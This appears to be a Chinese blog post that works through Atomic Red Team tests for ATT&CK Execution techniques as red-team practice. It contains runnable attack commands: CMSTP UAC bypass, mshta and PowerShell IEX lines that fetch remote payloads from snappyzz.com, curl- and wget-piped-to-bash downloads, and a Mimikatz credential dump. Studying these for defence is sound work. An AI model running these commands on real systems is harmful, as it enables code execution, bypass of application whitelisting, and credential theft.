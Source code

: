 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之execution
excerpt: "跟着ATT&CK学安全之execution"
categories: [ATT&CK]
comments: true
---
```

#### T1191 - CMSTP
Microsoft Connection Manager Profile Installer (CMSTP.exe)是一个安装连接管理配置的应用程序.它允许接受一个INF文件作为参数,安装一个服务,来进行远程连接.红队可用CMSTP.exe和inf文件来生成恶意命令.CMSTP.exe现在拒绝从远程加载dll,但由于CMSTP.exe是一个合法的程序,且有微软的签名,这个运行仍然可以绕过基于白名单和AppLocker的防御.

CMSTP.exe也可以通过COM接口绕过UAC来执行二进制文件

关于用户账户控制(UAC):UAC 会阻止未经授权应用程序的自动安装，防止无意中对系统设置进行更改。例如选择总是通知将会:
- 当程序试图安装软件或对电脑做出更改时通知你。
- 当你对 Windows 设置进行更改时通知你。
- 冻结其他任务，直到你做出响应。
##### 测试1 CMSTP 运行远程脚本
平台:Windows.运行方式如下`cmstp.exe /s T1191.inf`

window10运行成功
##### 测试2 CMSTP运行绕过UAC
红队可通过向inf文件中植入RunPreSetupCommandsSection来调用cmd.exe,来绕过UAC
```bash
cmstp.exe /s T1191_uacbypass.inf /au
```
window10运行成功
#### T1059 - Command-Line Interface
这个没什么好说的,就是一个命令行运行文件

平台:Linux,运行如下命令
```bash
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
或者
bash -c "wget --quiet -O - http://snappyzz.com/echo-art-fish.sh | bash"
```
centos上运行成功
#### T1223 - Compiled HTML File
编译的html文件(.chm)可运行如下:HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX.并通过hh.exe来打开他们,红队可用chm文件来隐藏一段payload,此技术也可以来绕过一些检测病毒检测.运行如下命令,或者直接打开文件
```
hh.exe D:\pycharmproject\atomic-red-team-master\atomics\T1223\src\T1223.chm
```
windows10上运行成功

或者
```bash
hh.exe http://snappyzz.com/T1223.chm		\\这个没有成功复现
```
#### T1196 - Control Panel Items
控制面板允许用户查看和修改电脑配置,也可以将cpl文件作为参数,运行恶意文件,来绕过一些病毒检测
```bash
control.exe D:\pycharmproject\atomic-red-team-master\atomics\T1196\bin\calc.cpl	//这里cpl一定要采用绝对路径否则失败
```
windows10上运行成功
#### T1173 - Dynamic Data Exchange
关于动态数据交换（DDE, Dynamic Data Exchange）:DDE是一种动态数据交换机制（Dynamic Data Exchange，DDE）。使用DDE通讯需要两个Windows应用程序，其中一个作为服务器处理信息，另外一个作为客户机从服务器获得信息。客户机应用程序向当前所激活的服务器应用程序发送一条消息请求信息，服务器应用程序根据该信息作出应答，从而实现两个程序之间的数据交换。红队可用DDE来运行二进制命令,微软的文档可以用来放入DDE命令

新建一个Word文档，通过Ctrl+F9添加一个域，然后修改域代码为：
```bash
DDEAUTO c:\windows\system32\cmd.exe "/k calc.exe" 
```
这个并没有复现成功
#### T1118 - InstallUtil
这个就是一个安装和卸载的组件
这个没有复现成功
##### 测试1 InstallUtil uninstall method call
#### T1170 - Mshta
Mshta.exe是用来运行Microsoft HTML Applications (HTA)的.HTA是一个独立的应用,使用的和浏览器同样的技术,但是独立与浏览器.红队和用它来运行Javascript 或者VBScript.它可以用来绕过白名单的防护,也可以绕过浏览器安全防护
##### 测试1 Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
```bash
mshta.exe javascript:a=(GetObject("script:http://snappyzz.com/mshta.sct")).Exec();close();
```
windows10上运行成功
##### 测试2 Mshta calls a local VBScript file to launch notepad.exe
```bash
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""C:\Windows\SysWOW64\calc.exe"")(window.close)")
```
windows10上运行成功
##### 测试3 Mshta executes VBScript to execute malicious command
运行本地的VB脚本通过powershell枚举用户
```bash
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file D:\pycharmproject\atomic-red-team-master\atomics\T1170\src\powershell.ps1"":close")
```
windows10上运行成功
##### 测试4 Mshta Executes Remote HTML Application (HTA)
```bash
mshta.exe http://snappyzz.com/T1170.hta
```
windows10上运行成功
#### T1086 - PowerShell
##### 测试1 下载Mimikatz并dump credentials
```bash
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('http://snappyzz.com/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
windows10上运行成功
##### 测试2 
下载Bloodhound并运行
```bash
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('http://snappyzz.com/SharpHound.ps1'); Invoke-BloodHound"
```
被win10防病毒拦下
未完待续

#### T1064 - Scripting
这个太简单了把
##### 测试1 在linux上运行脚本
```
sh -c "echo 'echo Hello from the Atomic Red Team' > /tmp/art.sh"
sh -c "echo 'ping -c 4 8.8.8.8' >> /tmp/art.sh"
chmod +x /tmp/art.sh
sh /tmp/art.sh
```
windows10上运行成功
##### 测试2 在windows上运行脚本
```
C:\Windows\system32\cmd.exe /Q /c echo #{command_to_execute} > #{script_to_create}
C:\Windows\system32\cmd.exe /Q /c #{script_to_create}
```
清除
```
del #{script_to_create}
```
windows10上运行成功
#### T1216 - Signed Script Proxy Execution
带有证书的脚本可以用来执行恶意文件
这个也未完待续


